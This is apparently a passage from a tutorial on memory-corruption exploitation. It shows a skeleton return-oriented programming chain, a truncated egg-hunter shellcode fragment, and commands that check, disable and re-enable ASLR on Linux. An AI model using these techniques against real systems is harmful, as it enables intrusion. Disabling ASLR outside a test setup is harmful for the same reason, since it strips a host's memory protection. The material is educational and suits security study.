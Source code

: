 ### 3. Return-Oriented Programming (ROP)

Chain existing code snippets (gadgets) to bypass DEP.

```python
# ROP chain example
rop_chain = struct.pack("<I", gadget1)  # pop eax; ret
rop_chain += struct.pack("<I", 0x41414141)  # value for eax
rop_chain += struct.pack("<I", gadget2)  # pop ebx; ret
rop_chain += struct.pack("<I", 0x42424242)  # value for ebx
rop_chain += struct.pack("<I", gadget3)  # int 0x80

payload = b"A" * offset + rop_chain
```

### 4. Egg Hunting

Find shellcode in memory when space is limited.

```python
# Egg hunter (searches for "W00TW00T" marker)
egg_hunter = (
    b"\x66\x81\xca\xff\x0f"  # or dx, 0x0fff
    b"\x42"                  # inc edx
    b"\x52"                  # push edx
    b"\x6a\x02"              # push 0x2
    b"\x58"                  # pop eax
    b"\xcd\x80"              # int 0x80
    # ... more egg hunter code
)

egg = b"W00TW00T"
shellcode = egg + actual_shellcode
```

## Modern Protections

### 1. Address Space Layout Randomization (ASLR)

Randomizes memory addresses to prevent predictable exploitation.

```bash
# Check ASLR status (Linux)
cat /proc/sys/kernel/randomize_va_space
# 0 = disabled
# 1 = partial (stack, heap, libraries)
# 2 = full (includes executable)

# Disable ASLR (for testing)
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

# Enable ASLR
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
